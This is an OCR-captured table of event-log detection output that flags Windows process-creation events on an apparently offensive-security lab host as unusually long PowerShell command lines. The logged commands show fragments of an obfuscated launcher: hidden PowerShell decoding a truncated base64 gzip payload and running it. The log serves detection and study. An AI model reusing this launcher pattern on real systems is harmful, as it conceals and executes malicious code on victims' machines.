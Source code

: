 ```powershell-session
│                     │                             │       │                                │          │           │                     │ uments='-noni -nop -w hidden -   │
│                     │                             │       │                                │          │           │                     │ c &([scriptblock]::create((New   │
│                     │                             │       │                                │          │           │                     │ -Object System.IO.StreamReader   │
│                     │                             │       │                                │          │           │                     │ (New-Object System.IO.Compress   │
│                     │                             │       │                                │          │           │                     │ ion.GzipStream((New-Object Sys   │
│                     │                             │       │                                │          │           │                     │ tem.IO.MemoryStream(,[System.C   │
│                     │                             │       │                                │          │           │                     │ onvert]::FromBase64String(''H4   │
│                     │                             │       │                                │          │           │                     │ sIAPg2gWACA7VWbW+bSBD+nEj5D6iy   │
│                     │                             │       │                                │          │           │                     │ ...                              │
│                     │                             │       │                                │          │           │                     │ (use --full to show all content) │
│                     │                             │       │                                │          │           │                     │ NewProcessId: '0x7f0'            │
│                     │                             │       │                                │          │           │                     │ NewProcessName: C:\Windows\Sys   │
│                     │                             │       │                                │          │           │                     │ tem32\WindowsPowerShell\v1.0\p   │
│                     │                             │       │                                │          │           │                     │ owershell.exe                    │
│                     │                             │       │                                │          │           │                     │ ProcessId: '0x6e8'               │
│                     │                             │       │                                │          │           │                     │ SubjectDomainName: OFFSEC        │
│                     │                             │       │                                │          │           │                     │ SubjectLogonId: '0x3e7'          │
│                     │                             │       │                                │          │           │                     │ SubjectUserName: FS03VULN$       │
│                     │                             │       │                                │          │           │                     │ SubjectUserSid: S-1-5-18         │
│                     │                             │       │                                │          │           │                     │ TokenElevationType: '%%1936'     │
├─────────────────────┼─────────────────────────────┼───────┼────────────────────────────────┼──────────┼───────────┼─────────────────────┼──────────────────────────────────┤
│ 2021-04-22 08:51:04 │ + Unusually Long PowerShell │ 1     │ Microsoft-Windows-Security-Aud │ 4688     │ 435120    │ fs03vuln.offsec.lan │ CommandLine: C:\Windows\system   │
│                     │ CommandLine                 │       │ iting                          │          │           │                     │ 32\cmd.exe /b /c start /b /min   │
│                     │                             │       │                                │          │           │                     │  powershell.exe -nop -w hidden   │
│                     │                             │       │                                │          │           │                     │  -noni -c "if([IntPtr]::Size -   │
│                     │                             │       │                                │          │           │                     │ eq 4){$b='powershell.exe'}else   │
│                     │                             │       │                                │          │           │                     │ {$b=$env:windir+'\syswow64\Win   │
│                     │                             │       │                                │          │           │                     │ dowsPowerShell\v1.0\powershell   │
│                     │                             │       │                                │          │           │                     │ .exe'};$s=New-Object System.Di   │
│                     │                             │       │                                │          │           │                     │ agnostics.ProcessStartInfo;$s.   │
│                     │                             │       │                                │          │           │                     │ FileName=$b;$s.Arguments='-non   │
```